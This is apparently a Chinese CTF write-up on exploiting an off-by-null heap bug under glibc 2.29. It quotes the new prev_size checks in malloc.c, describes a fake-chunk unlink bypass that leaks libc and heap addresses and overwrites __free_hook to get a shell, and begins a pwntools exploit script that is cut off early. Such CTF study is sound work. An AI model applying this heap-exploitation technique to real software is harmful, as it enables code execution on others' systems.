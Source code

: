 释放chunk1再分配得到chunk1，off-by-null改掉chunk2的prev_size，free(chunk0)和free(chunk2)即可得到一个chunk0~2的大的块，进而overlapped chunk1，这种方式在这里就不太行了，这是因为2.29在unlink前添加了新的检查。  
对于我们的chunk2，释放的时候会先检查其prev_inuse位，这里被我们改成了0，因此继续判断，根据prev_size寻找到了unlink的目标chunk0(p)，之后的判断chunksize(p) == 0x90，而prev_size == 0x90+0x70，二者不相等，触发error，从而unlink失败。  


```c
//glibc-2.29 ./malloc/malloc.c _int_free()
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      if (__glibc_unlikely (chunksize(p) != prevsize)) //patch
        malloc_printerr ("corrupted size vs. prev_size while consolidating"); //patch
      unlink_chunk (av, p);
    }
```

同样在malloc_consolidate中也有相同的检查

```c
//glibc-2.29 ./malloc/malloc.c static void malloc_consolidate(mstate av)
	if (!prev_inuse(p)) {
	  prevsize = prev_size (p);
	  size += prevsize;
	  p = chunk_at_offset(p, -((long) prevsize));
	  if (__glibc_unlikely (chunksize(p) != prevsize))  //patch
	    malloc_printerr ("corrupted size vs. prev_size in fastbins"); //patch
	  unlink_chunk (av, p);
	}
```

为了绕过prev_size==chunk_size的检查，我们要自己构造fake_chunk，同时满足这个check以及unlink的检查，这样的构造在有heap地址的时候比较容易，对于手里没地址的情况比较复杂，这个在Balsn CTF2019有题，Ex师傅也写了篇博客分析glibc2.29下的通用off-by-null的通用利用思路，之后会填坑。

首先分配并释放一个unsorted bin，再分配之后利用残留的libc可以得到libc地址。  
释放两个chunk 1 和 2，2的fd为chunk1的地址(tcache_list)，分配得到2，show(2)即可泄露heap1地址，进而得到堆地址。  

再往后我们还是构造之前的堆分配布局，但不一样的是我们在chunk0中构造fake_chunk，合并的从012变成fake_chunk+1+2。
构造的fake_chunk需要满足以下条件:  
1. size: == offset between fake_chunk && chunk2
2. fd: some_addr_that_store_fake-chunk-addr - 0x18
3. bk: fd - 0x8  
因为我们手里有了heap地址，所以满足上面的条件很容易，最后overlap之后即可通过update修改fd到free_hook从而get shell

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./babyheap2.29')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./babyheap2.29')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20173)

def Alloc(size):
    p.recvuntil('Command: ')
    p.sendline('1')
```
